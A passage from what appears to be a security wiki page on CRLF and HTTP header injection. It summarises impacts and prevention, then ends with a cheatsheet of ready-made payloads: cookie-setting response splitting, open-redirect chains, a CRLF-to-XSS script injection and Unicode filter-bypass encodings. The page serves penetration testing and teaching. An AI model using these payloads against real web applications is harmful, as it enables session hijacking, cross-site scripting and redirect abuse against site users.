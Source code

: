 <figure><img src="../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

**For the full information read the**[ **original writeup**](https://www.sonarsource.com/blog/zimbra-mail-stealing-clear-text-credentials-via-memcache-injection/)\*\*\*\*

## Impacts of the CRLF injection Vulnerability

The impact of CRLF injections vary and also include all the impacts of Cross-site Scripting to information disclosure. It can also deactivate certain security restrictions like XSS Filters and the Same Origin Policy in the victim's browsers, leaving them susceptible to malicious attacks.

### How to Prevent CRLF / HTTP Header Injections in Web Applications

The best prevention technique is to not use users input directly inside response headers. If that is not possible, you should always use a function to encode the CRLF special characters. Another good web application security best practise is to update your programming language to a version that does not allow CR and LF to be injected inside functions that set HTTP headers.

### CHEATSHEET

```
1. HTTP Response Splitting
• /%0D%0ASet-Cookie:mycookie=myvalue (Check if the response is setting this cookie)

2. CRLF chained with Open Redirect
• //www.google.com/%2F%2E%2E%0D%0AHeader-Test:test2 
• /www.google.com/%2E%2E%2F%0D%0AHeader-Test:test2
• /google.com/%2F..%0D%0AHeader-Test:test2
• /%0d%0aLocation:%20http://example.com

3. CRLF Injection to XSS
• /%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23
• /%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E

4. Filter Bypass
• %E5%98%8A = %0A = \u560a
• %E5%98%8D = %0D = \u560d
• %E5%98%BE = %3E = \u563e (>)
• %E5%98%BC = %3C = \u563c (<)
• Payload = %E5%98%8A%E5%98%8DSet-Cookie:%20test
```
